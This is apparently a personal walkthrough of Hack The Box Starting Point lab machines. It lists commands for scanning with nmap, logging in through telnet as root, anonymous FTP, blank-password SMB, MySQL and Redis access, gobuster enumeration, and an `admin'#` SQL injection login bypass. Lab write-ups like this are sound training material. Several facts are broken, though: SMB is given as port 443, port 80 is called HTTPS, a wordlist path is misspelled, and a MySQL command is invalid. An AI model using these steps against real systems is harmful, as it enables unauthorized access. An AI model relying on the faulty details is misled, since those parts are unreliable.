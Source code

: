 ***歡迎來到HTB新手村***

Start here: https://app.hackthebox.com/starting-point

On environment Kali Linux and connect to HTB

Explain the linux command: https://explainshell.com/

Always ask google: https://www.google.com/

# 0.1 Meow

1. Check port 23 running service

   `nmap -p 23 -sV TARGET_IP`

2. telnet service is running, execute `telnet`

   `telnet TARGET_IP`

3. login with `root`

4. login succeed
5. `ls` to show what's there
6. `cat flag.txt`

# 0.2 Fawn

1. Check port 21 (FTP) running service

   `nmap -p 21 -sV TARGET_IP`

2. ftp service is running, execute `ftp`

   `ftp TARGET_IP`

3. login with name `anonymous` without password

4. `ls` and there is a *flag.txt*

5. copy the file to current directory

   ftp>`get flag.txt`

6. exit ftp by command `bye`, then `cat flag.txt`

# 0.3 Dancing

1. Check port 443 (SMB) running service

   `nmap -p 443 -sV TARGET_IP`

2. SMB service is running, see what is sharing in the server

   `smbclient -L TARGET_IP`

3. We are able to access with a blank password for the folder *WorkShares*

   `smbclient //TARGET_IP/WorkShares`

4. list the files in folder *WorkShares* smb: \> `ls`

5. Check the file *James.P* owns, the flag is inside *flag.txt*

6. smb: \James.P\> `get flag.txt`

# 0.4 Redeemer

1. Check the TCP port opened on the machine, `-T5` used for quicker enum, `-sS` is check for the TCP SYN scan (half of the TCP handshake), `-sV` is used to check the version of the service

   `nmap -p 1000-9999 -sSV -T5 TARGET_IP`

2. port 6379/tcp is opened for **Redis** service **version 5.0.7**, Redis is an **in-memory database**

3. connect to Redis server, `-h` means host

   `redis-cli -h TARGET_IP`

5. Connected success, select the first database in Redis: `select 0`

6. List all the keys in this database: `keys *`, the flag is in the *flag* key

7. Look at the value of the key *flag* by `get flag`

# 1.1 Appointment

1. Check port 80 (HTTPS), and it is running

   `nmap -p 80 TARGET_IP`

2. Browse TARGET_IP in browser

3. Input `admin'#` for username (which is **SQL injection**), do not empty the password field

# 1.2 Sequel

1. Check running service, and port 3306 is running *SQL* service

   `nmap -p 1000-9999 -sSV -T5 TARGET_IP`

2. We can connect to the database with user **root** by a blank password

   `mysql -h TARGET_IP -u root`

3. After connecting to the database, check what schema is there: `show database;`

4. Use the schema htb: `use htb;`

5. See what tables in the schema: `show tables;`

6. See what is inside the *config* table: `select * from config;`, flag is there

# 1.3 Crocodile

1. Check running service on port 21 with version detection

   `nmap -p 21 -sV TARGET_IP`

2. Check HTTP running service (port 80) with version detection

   `nmap -p 80 -sV TARGET_IP`

3. Use **gobuster** to check any useful **php** file

   `gobuster dir -u TARGET_IP -x php -w /user/share/wordlists/dirb/common.txt`

   ![image-20220807140329252](../assets/img/htb-starting-point/1.png)

4. Check the TARGET_IP/login.php in browser

5. As FTP is running, go check the file in FTP

6. `ftp TARGET_IP`, login as `anonymous`, then `ls`

7. ftp> `get allowed.userlist`, ftp> `get allowed.userlist.passwd`

8. input the user **`admin`** with the corresponding password in **.passwd** file to login

# 1.4 Responder

1. Check all ports:`nmap -p- -T5 -sS TARGET_IP`
2. ![image-20220807172900458](../assets/img/htb-starting-point/2.png)
3. Check directories: `gobuster dir -u TARGET_IP -w /user/share/wordlists/dirb/common.txt`
4. ![image-20220807173447614](../assets/img/htb-starting-point/3.png)
